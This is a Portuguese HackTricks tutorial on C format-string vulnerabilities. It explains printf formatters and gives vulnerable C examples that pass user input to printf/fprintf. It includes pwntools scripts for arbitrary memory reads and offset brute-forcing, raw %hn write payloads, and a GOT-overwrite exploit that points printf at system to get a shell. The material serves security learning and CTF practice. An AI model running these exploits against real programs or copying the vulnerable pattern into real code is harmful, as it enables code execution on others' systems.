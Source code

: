 # Format Strings

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira de hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada é necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

Em C **`printf`** é uma função que pode ser usada para **imprimir** alguma string. O **primeiro parâmetro** que esta função espera é o **texto bruto com os formatadores**. Os **parâmetros seguintes** esperados são os **valores** para **substituir** os **formatadores** do texto bruto.

Outras funções vulneráveis são **`sprintf()`** e **`fprintf()`**.

A vulnerabilidade aparece quando um **texto de atacante é usado como o primeiro argumento** para esta função. O atacante será capaz de criar uma **entrada especial abusando** das capacidades da **string de formato printf** para ler e **escrever qualquer dado em qualquer endereço (legível/escrevível)**. Sendo capaz assim de **executar código arbitrário**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Exemplos:**

* Exemplo vulnerável:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normal:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Com Argumentos Faltando:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnerável:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Acessando Ponteiros**

O formato **`%<n>$x`**, onde `n` é um número, permite indicar ao printf para selecionar o n-ésimo parâmetro (da pilha). Então, se você quiser ler o 4º parâmetro da pilha usando printf, você poderia fazer:
```c
printf("%x %x %x %x")
```
e você leria do primeiro ao quarto parâmetro.

Ou você poderia fazer:
```c
printf("%4$x")
```
e ler diretamente o quarto.

Observe que o atacante controla o parâmetro `printf`, **o que basicamente significa que** sua entrada estará na pilha quando `printf` for chamado, o que significa que ele poderia escrever endereços de memória específicos na pilha.

{% hint style="danger" %}
Um atacante controlando essa entrada, será capaz de **adicionar endereços arbitrários na pilha e fazer com que `printf` os acesse**. Na próxima seção, será explicado como usar esse comportamento.
{% endhint %}

## **Leitura Arbitrária**

É possível usar o formatador **`%n$s`** para fazer com que **`printf`** obtenha o **endereço** situado na **n posição**, seguindo-o e **imprimí-lo como se fosse uma string** (imprimir até que um 0x00 seja encontrado). Então, se o endereço base do binário for **`0x8048000`**, e sabemos que a entrada do usuário começa na 4ª posição na pilha, é possível imprimir o início do binário com:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Observe que você não pode colocar o endereço 0x8048000 no início da entrada porque a string será cortada em 0x00 no final desse endereço.
{% endhint %}

### Encontrar offset

Para encontrar o offset para sua entrada, você pode enviar 4 ou 8 bytes (`0x41414141`) seguidos de **`%1$x`** e **aumentar** o valor até recuperar os `A's`.

<details>

<summary>Força Bruta printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Quão útil

Leituras arbitrárias podem ser úteis para:

* **Despejar** o **binário** da memória
* **Acessar partes específicas da memória onde informações sensíveis** **são** armazenadas (como canários, chaves de criptografia ou senhas personalizadas como neste [**desafio CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Escrita Arbitrária**

O formatador **`%<num>$n`** **escreve** o **número de bytes escritos** no **endereço indicado** no parâmetro \<num> na pilha. Se um atacante puder escrever quantos caracteres quiser com printf, ele será capaz de fazer **`%<num>$n`** escrever um número arbitrário em um endereço arbitrário.

Felizmente, para escrever o número 9999, não é necessário adicionar 9999 "A"s à entrada, para fazer isso é possível usar o formatador **`%.<num-write>%<num>$n`** para escrever o número **`<num-write>`** no **endereço apontado pela posição `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
No entanto, note que geralmente, para escrever um endereço como `0x08049724` (que é um número ENORME para escrever de uma vez), **usa-se `$hn`** em vez de `$n`. Isso permite **escrever apenas 2 Bytes**. Portanto, essa operação é feita duas vezes, uma para os 2B mais altos do endereço e outra vez para os mais baixos.

Portanto, essa vulnerabilidade permite **escrever qualquer coisa em qualquer endereço (escrita arbitrária).**

Neste exemplo, o objetivo será **sobrescrever** o **endereço** de uma **função** na tabela **GOT** que será chamada mais tarde. Embora isso possa abusar de outras técnicas de escrita arbitrária para exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Vamos **sobrescrever** uma **função** que **recebe** seus **argumentos** do **usuário** e **apontá-la** para a **função** **`system`**.\
Como mencionado, para escrever o endereço, geralmente são necessários 2 passos: Você **primeiro escreve 2Bytes** do endereço e depois os outros 2. Para isso, usa-se **`$hn`**.

* **HOB** é chamado para os 2 bytes mais altos do endereço
* **LOB** é chamado para os 2 bytes mais baixos do endereço

Então, devido a como a string de formato funciona, você precisa **escrever primeiro o menor** de \[HOB, LOB] e depois o outro.

Se HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Se HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Modelo Pwntools

Você pode encontrar um **modelo** para preparar um exploit para esse tipo de vulnerabilidade em:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Ou este exemplo básico de [**aqui**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Format Strings para BOF

É possível abusar das ações de escrita de uma vulnerabilidade de formato de string para **escrever em endereços da pilha** e explorar um tipo de vulnerabilidade de **buffer overflow**.

## Outros Exemplos & Referências

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt_strings/pico18_echo/index.html)
* 32 bits, sem relro, sem canário, nx, sem pie, uso básico de format strings para vazar a flag da pilha (sem necessidade de alterar o fluxo de execução)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
* 32 bits, relro, sem canário, nx, sem pie, format string para sobrescrever o endereço `fflush` com a função win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt_strings/tw16_greeting/index.html)
* 32 bits, relro, sem canário, nx, sem pie, format string para escrever um endereço dentro de main em `.fini_array` (para que o fluxo retorne mais uma vez) e escrever o endereço para `system` na tabela GOT apontando para `strlen`. Quando o fluxo voltar para main, `strlen` é executado com a entrada do usuário e apontando para `system`, ele executará os comandos passados.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira em hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada é necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprenda & pratique Hacking AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda & pratique Hacking GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Apoie o HackTricks

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).
{% endhint %}
